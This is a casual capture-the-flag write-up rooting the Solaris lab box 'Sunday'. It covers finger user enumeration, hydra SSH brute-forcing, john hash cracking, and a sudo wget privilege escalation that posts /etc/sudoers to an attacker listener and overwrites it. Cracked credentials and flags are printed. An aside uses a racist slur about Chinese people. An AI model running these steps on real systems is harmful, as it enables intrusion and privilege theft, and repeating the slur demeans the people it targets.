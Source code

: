 # [cd ../](../index.md)

---

# Sunday writeup by M4t35Z

Name | Sunday
--- | ---
IP | 10.10.10.76
OS | Solaris
Points | Easy(20)

# Recon
[nmap(fast)](recon/fast.txt)  
[nmap(big)](recon/big.txt)  

## Interesting
The box runs solaris(just a unix like os)
The most interesting port is `79` we could enumerate more on this `fingerd` service
We have `ssh` on `22022` btw(thats weird af)

# Fingerd(`port 79`)

```
finger @10.10.10.76
```

We got nothing cuz this box is old af and rated 1.4 so no1 is doin it rn except me XD
Btw I looked at a writeup and it said the user is `sunny` i hope i dont get pranked by that and waste an hour of bruting with a bad username.

OOH W8 there is a [2015 script by pentestmonkey](https://github.com/pentestmonkey/finger-user-enum)  
Run it!
```
./finger-user-enum.pl -U /usr/share/seclists/Usernames/Names/names.txt -t 10.10.10.76
```
We have `sunny` and `root` too.

# SSH
Just brute it cuz lot of old boxes involves brute-forcing with rockyou. (They werent hammered by ~10k retards in the past like boxes nowadays that do **NOT** involves bruting the shit out of the box)  

Now, just open a new term and use hydra to brute ssh.
```
hydra -V -I -l sunny -P '/usr/share/wordlists/rockyou.txt' 10.10.10.76 ssh -s 22022
```

Daaaamn thats a long ass command! (but its working)  
![](img/hydra.png)  
And we finally got it after a half hour on vip  
![](https://media.giphy.com/media/CaiVJuZGvR8HK/giphy.gif)  

## Tha cR3d5: `sunny:sunday`

Now just log into ssh and enjoy the sunshin wtf am I writing now hell nah this just a solaris box that needs to be rooted and I have to do some shit homework after that cuz its 2020 March 26 and we are fkin homeschooling cuz of COVID19. Yeah some chinese bat eater fucker....  
**BTW STAY HOME STAY SAFE**

W8 dafuq is that?!  
![](img/sshwat.png)

```
ssh -okexAlgorithms=+diffie-hellman-group1-sha1 -p 22022 sunny@10.10.10.76
```
And we are finally inside! :O I mean we are on the box  
![](img/ssh_in.png)

Ohh u thought we have the user flag. NOPE  
Just `cat /etc/passwd` and u will see whats the situation.  
We have an other user `sammy` fuuuu  

## Privesc to `sammy`
Idk why but this ssh shell is so fkin laggy maybe some1 bruting the box hehexd  
Just try some basic privesc vector like `sudo -l` or just searching for backups like `/backup`  
We got a troll for `sudo -l`  
![](img/troll.png)  
But there are some hashes in `/backup/shadow.backup`!  
![](img/shadow.png)  

### Lets fire up `john`!

```
john --wordlist=/usr/share/wordlists/rockyou.txt sammy.hash
```

Now u just have to wait! Get a cup of tea or just wash ur hands cuz COVID19 everywhere!  

## Finally we got the creds: `sammy:cooldude!`
*Just log in and enjoy the laggy shell n tha f14G!*  
![](img/userflag.png)

```
a3d9498027ca5187ba1793943ee8a598
```

## Privesc to `root` cuz r0071n 80x35 1ncr34535 PP s1z3
Just run `sudo -l` again :D  
We could run `sudo wget` wo any pw! Hell yeah!  

Just check out my writeup on [**thm wgel ctf**](https://matesz44.github.io/writeups/ctf/tryhackme/wgel_ctf/#getting-a-root-shell) and u could see a 1337 wget privesc there!

### Exploiting it
1. Make an nc listener `nc -lvp 1337 > sudoers`
2. Paste `sudo wget --post-file=/etc/sudoers 10.10.14.44:1337` to the ssh shell
3. Spam enters on ur nc listener
4. \<ctrl\>+c ur nc
5. Open the file!

Voila!  
![](img/sudoers.png)  
**Make sure u DELETE THE CURL JUNK from the beginning of the file otherwise say bye to the box and reset it cuz it breaks sudoers!**  
Just make a new line
```
sammy ALL=(root) NOPASSWD: /bin/bash
```

1. Save it (on attacker)
2. Host a `python3 -m http.server 80` (on attacker)
2. `cd /etc` (on victim)
3. Download it with wget as sudo (on victim)
  ```
  sudo wget http://10.10.14.44/sudoers --output-document=sudoers
  ```
4. Run `sudo -l`
5. Run `sudo /bin/bash`
6. Enjoy ur rootshell!

# Got root and got the root flag
![](img/gotroot.png)
```
fb40fab61d99d37536daeec0d97af9b8
```
![](https://media.giphy.com/media/Rl9Yqavfj2Ula/giphy.gif)
